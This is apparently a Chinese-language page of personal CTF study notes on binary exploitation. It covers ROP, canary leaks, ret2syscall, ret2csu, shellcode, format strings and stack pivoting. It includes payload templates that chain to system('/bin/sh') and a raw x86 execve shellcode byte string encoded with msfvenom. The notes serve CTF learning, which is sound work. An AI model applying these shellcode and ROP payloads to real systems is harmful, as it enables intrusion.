 # PWN

+ 技巧总结 https://www.cnblogs.com/xshhc/p/16939678.htmlz
+ 二进制资料 https://abcdxyzk.github.io/blog/cats/assembly/
+ 参考 https://www.yuque.com/hxfqg9/bin
+ ![1708946346737](image/pwn/1708946346737.png)

## 做题笔记

### ROP

+ padding+rdi_ret+sh_str+ret+sys

### Canary leak

Canary存在ebp之前 其大小取决于程序的bit 0x04 0x08

https://cloud.tencent.com/developer/article/1740319

1. Payload_Leak = Padding + p64(Canary) + Padding_Ret + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
2. Payload_Shell = Padding + p64(Canary) + Padding_Ret + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

### glibc 2.27

+ 得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)`
  弹出的数据是奇数个, 本地就会报错
  但是改成偶数个pop
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)`
  就能打通本地了

### ret2syscall

+ 参考 https://www.cnblogs.com/fuxuqiannian/p/16913836.html
+ 没有sys且开启了NX
+ 32：pop,a,b,c,d,ret execve调用号 0xb写在pop,a后 其余两个寄存器覆盖0 p32(0) 最后执行int80 addr
+ 64：传参的寄存器是rdi->rsi->rdx->rcx->r8->r9 execve调用号 0x3b 最后执行syscall addr
+ ![1708929874831](image/pwn/1708929874831.png)

### UAF

+ use after free
+ 内存空间未被设置NULL的使用

### ret2csu

+ https://ctf-wiki.org/en/pwn/linux/user-mode/stackoverflow/x86/medium-rop/
+ 1.查找利用gadgets
  + ![1709018072974](image/pwn/1709018072974.png)![1709018199735](image/pwn/1709018199735.png)
+ 2.给寄存器赋值 按照64的参数顺序![1709018264113](image/pwn/1709018264113.png)
+ 3.泄露write地址 使得程序重新运行main函数，根据libc基地址计算system函数和binsh字符串的真实地址，构造ROP链![1709018463535](image/pwn/1709018463535.png)

### ret2shellcode

+ http://shell-storm.org/shellcode/files/shellcode-819.html
+ b64shellcode编码的buf执行
  + `python -c ``'import sys; sys.stdout.write("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'` `| msfvenom -p - -e x86``/alpha_mixed` `-a linux -f raw -a x86 --platform linux BufferRegister=EAX -o payload`
  + BSides San Francisco CTF 2017-b_64_b_tuff

### fmt

+ 查找溢出位置相对于flag变量的位置 计算出偏移
+ %偏移%s 泄露偏移地址上的值作为string类型输出
+ 小大端序问题
+ ```python
  nums=["657b46544353534e","2d34653333386238","3165342d65313936","622d383534382d30",
  "6565306232346663","7d363731"]
  for strs in nums:
      i = len(strs)-2
      while i >= 0:
          num = strs[i:i+2]
          print(chr(int(num,16)),end="")
          i = i-2
  ```

### StackSmash

+ https://blog.csdn.net/m0_74020775/article/details/129858952
+ canary检查到不同时，报StackSmash错，输出$__libc_argv[0] 第一个环境变量 也就是程序本身目录，构造ROP链达到输出想要的内容

### 栈迁移

+ 对于只能溢出覆盖掉一个地址大小的栈。开启NX，no-pie，栈迁移到bss段
+ 计算出当前溢出后得到的ebp与pre main ebp计算，得到偏移，到达迁移后的栈。给足所需字符串字节大小。'/bin/sh\x00'=16bytes。call sys,ret
+ 栈迁移是一种技术，用于在利用漏洞时控制程序的执行流。它通常用于绕过保护机制，如栈溢出。
  栈迁移的核心在于使用两次 leave; ret 指令：
  第一次 leave 指令将 ESP 设置为 EBP 的值，即栈顶和栈底指向同一位置。
  然后执行 pop ebp，将栈顶的内容弹入 EBP，此时栈顶的内容也就是 EBP 的内容。
  第二次 leave 指令执行后，ESP 移动到了 EBP 的位置，再次执行 pop ebp，将栈顶的内容弹给 EBP。
  此时控制流跳转到返回地址，实现了栈迁移。

### off_by_null

+ 只溢出一个字节 通常是\x0 null byte

### nop_sled

+ 插入大量NOP指令，增加访问到自己的shellcode的领空概率

### strlen

+ 若程序read(buf,0x100) 但buf只有0x50大小，紧接着程序判断
+ ```c
  int len=strlen(buf);
  if (len>0x50)
  	return(0);
  ```
+ 我们可以使用payload=b'\x00'+padding-1来绕过这个判断
